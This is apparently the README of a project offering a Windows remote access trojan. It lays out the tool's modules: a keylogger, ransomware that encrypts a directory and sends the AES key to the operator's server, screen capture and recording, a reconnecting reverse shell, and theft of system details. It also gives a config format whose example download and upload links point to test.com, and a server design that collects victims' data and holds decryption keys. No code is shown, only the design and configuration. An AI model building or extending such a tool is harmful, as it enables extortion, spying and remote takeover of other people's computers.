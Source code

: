 A simple windows remote access tool. After every 24 hours it will donwload a configuration file and modules from the server.
Dynamically import and run modules. Uploads the module results after module interval periods.
So it only needs to install the winrat.py file first to start RAT.

winrat.conf:
    Usage: <operation> <name/link> <reload interval>
    Example: m screenshot 200 # m = module
             d http://test.com:8000/ # d = download link. Module and configuration download link
             u http://test.com:8000/ # u = upload link. Results upload link

Modules implemented:
    1. Keylogger:
        * Separate words when newline or space is pressed or no key pressed for 15 seconds
    
    2. Ransomware
        Encryption: 
            * Recursively encrypts every files in a given directory with AES encryption
            * AES encryption key is sent to the server
            * TODO: Send the encrypted file names to the server along with encryption key
        Decrytion:
            * AES decryption key is fetched from server based on the mac address of client
            * Decrypt only files which were encrypted and also in encryption_file_names.txt
            * TODO: Get the encrypted file names list from the server
    
    3. Screenshot:
        * Takes a screenshot after at each run

    4. Screenrecord:
        * Records only the primary display for a given duration at each run

    5. Remote shell:
        * Start a reverse shell and try to reconnect untill next reload of system

    6. System Informations:
        * Sends the mac address, public ip, private ip, user lists, open ports to the server
    
    7. Encrypts files before sending to server

Server:
    A very minimal http server is created to handle the request. A simple api server will suffice.
    Functionalities:
        1. GET requests:
            * Handle request for configuration and modules files
            * Handle request for ranswomware decryption key
            * TODO: Send the encrypted file names list along with the decryption key

        2. POST requests:
            * Handle module results sent back from the client
            * TODO: Use database to store the results
